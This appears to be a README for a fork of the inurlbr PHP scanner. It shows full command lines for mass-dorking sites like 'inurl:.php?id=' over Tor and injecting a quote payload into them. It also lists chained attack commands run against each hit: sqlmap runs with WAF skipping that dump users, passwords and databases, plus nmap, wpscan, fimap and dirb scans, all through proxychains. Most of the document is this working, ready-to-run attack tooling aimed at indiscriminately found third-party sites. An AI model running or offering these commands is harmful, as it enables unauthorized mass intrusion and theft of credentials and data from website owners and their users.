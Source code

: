 # PWR_inurlbr

- added sqllite db logging
- --custom-blacklist
- --custom-config

needs : NMAP,SQLMAP,DIG,WPSCAN,FIMAP,DIRB,BLACKWIDOW

The rest of the exploit scripts are included

Example usage:

./inurlbr.php  --dork 'inurl:.php?id=' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 1 -q 1,2,3,4,5,6,7 --exploit-vul-id 1,2,3,5,15,4 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'

Using a dork list and 10 pages of every searchengine (23) do:

./inurlbr.php  --dork-file 'Dorks/dorks2017-prefixed.lst' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 10 -q all --exploit-vul-id 1,2,3,5,15 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'


for list of --exploit-vul-id options which you can add if you like

./inurlbr.php --custom-config K00B404.conf --exploit-list

    [0] => TYPE::COMMAND
    [1] => MKDIR::service tor restart && mkdir -p output/_TARGET_
    [2] => DIG::proxychains dig -4 _TARGET_ > "output/_TARGET_/dig_output.lst" | cat "output/_TARGET_/dig_output.lst"
    [3] => GEOLOCATE::echo _TARGET_ >  "output/_TARGET_/ip_geo.txt" && geoiplookup _TARGETIP_ >> "output/_TARGET_/ip_geo.txt" |cat "output/_TARGET_/ip_geo.txt"
    [4] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --hex --output-dir "output/" --passwords --users --threads 10 --tables --dbs --skip-waf --random-agent --level 2 --risk 3 --batch --retries=1 --timeout 10 --smart --is-dba --dump
    [5] => NMAP::proxychains nmap -F -n -Pn -vvv --open _TARGETIP_ > "output/_TARGET_/nmap_output.lst" |cat  "output/_TARGET_/nmap_output.lst"
    [6] => WPSCAN::wpscan --url "http://"_TARGET_  --batch
    [7] => NMAP::proxychains nmap -n -Pn -vvv --open -p 81,8001,8081 _TARGETIP_ -sV > "output/_TARGET_/nmap_output.lst" |cat "output/_TARGET_/nmap_output.lst"
    [8] => NMAP::proxychains nnmap -vv _TARGETIP_ | grep "Discovered open port" | awk {'print $6":"$4'} | awk -F/ {'print $1'} > "output/_TARGET_/nmap_ip_port_output.lst" |cat "output/_TARGET_/nmap_ip_port_output.lst"
    [9] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --is-dba --users --passwords --skip-waf --random-agent --level 1 --risk 1 --batch --retries=1 --smart --output-dir="output/"
    [10] => NMAP::proxychains nmap -n -Pn -vvv --open --top-ports 10 _TARGETIP_ -sV
    [11] => FIMAP::proxychains fimap -u "http://_TARGET_" -4 -w "output/fimap__TARGET__found_urls.lst" -d 3 >> "output/_TARGET_/fimap_output.lst" |cat "output/_TARGET_/fimap_output.lst"
    [12] => DIRB::proxychains dirb "http://"_TARGET_ |grep "200" > "output/_TARGET__dirb_output.lst" |cat "output/_TARGET__dirb_output.lst"
    [13] => BLACKWIDOW::echo "BLACKWIDOW RUNNING" && proxychains blackwidow -l 1  -u "_TARGETFULL_" -d "_TARGET_" -s "output/_TARGET_/blackwidow_output.lst"
    [14] => SPIDER::echo "SPIDER SCRIPT" && python "modules/crawl.py" --verbose --max-urls=10 --max-time 3 -d 4 "http://"_TARGET_
    [15] => PORTTODB::bash Commands.sh _TARGET_

